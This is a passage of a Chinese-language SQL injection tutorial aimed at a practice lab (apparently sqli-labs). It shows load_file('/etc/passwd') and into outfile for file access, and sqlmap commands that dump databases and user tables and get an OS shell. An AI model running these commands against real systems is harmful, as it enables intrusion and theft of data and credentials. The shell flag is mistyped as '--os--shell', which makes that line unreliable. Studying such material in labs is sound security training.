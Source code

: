 ```
文件读写操作：
load_file() :读取函数
load_file(/etc/passwd)

into outfile 或者 into dumpfile ：导出写入函数
```

现在一般都是用工具注入了，sqlmap直接跑即可

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据
```

还可以直接--os--shell来获取shell

```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --os--shell
```



## 字符型

```
select * from tables where username = 'darkid';
```

多见于后台登录框或者搜索框
直接用burp测试即可
![](https://img-blog.csdnimg.cn/img_convert/cc336998a581bcf95da16bc2577ee319.png)
或者保存这个包，用sqlmap跑，之后测试就和上面一样了

```
sqlmap -r '1.txt' --technique E --dbs
```



## 搜索型

多见于搜索框
